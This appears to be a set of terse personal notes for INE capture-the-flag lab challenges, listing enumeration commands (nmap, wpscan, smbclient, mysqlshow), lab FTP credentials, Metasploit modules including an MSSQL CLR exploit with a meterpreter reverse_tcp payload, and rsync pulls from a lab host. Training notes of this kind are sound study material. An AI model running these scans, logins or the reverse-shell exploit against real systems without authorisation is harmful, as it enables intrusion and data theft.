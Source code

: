 #### Assessment Methodologies: Information Gathering CTF 1
whatweb, nmap, httrack
wpscan --url target.ine.local  

#### Assessment Methodologies: Footprinting and Scanning CTF 1
mysqlshow -h target.ine.local  -P3306 -u db_admin --password  

#### Assessment Methodologies: Enumeration CTF 1
Find share using wordlist. Wild guess, first try.
smb_login
smbclient  \\\\target.ine.local\\josh -U josh   

portscan/tcp
ftp/ftp_version
ftp/ftp_login

ftp ftp://alice:pretty@target.ine.local:5554

ssh a@target.ine.local 22       

#### Host & Network Penetration Testing: System-Host Based Attacks CTF 1
Ez

#### Host & Network Penetration Testing: System-Host Based Attacks CTF 2
Ez?

#### Network
Search in strings in wireshark

#### Host & Network Penetration Testing: The Metasploit Framework CTF 1
Use `exploit/windows/mssql/mssql_clr_payload`
Change the payload to `windows/x64/meterpreter/reverse_tcp`
`search -f *flag* -r`

#### Host & Network Penetration Testing: The Metasploit Framework CTF 2
```
rsync <target-ip>::
rsync -av 192.120.27.3::backupwscohen tester
search roxy_wi

```
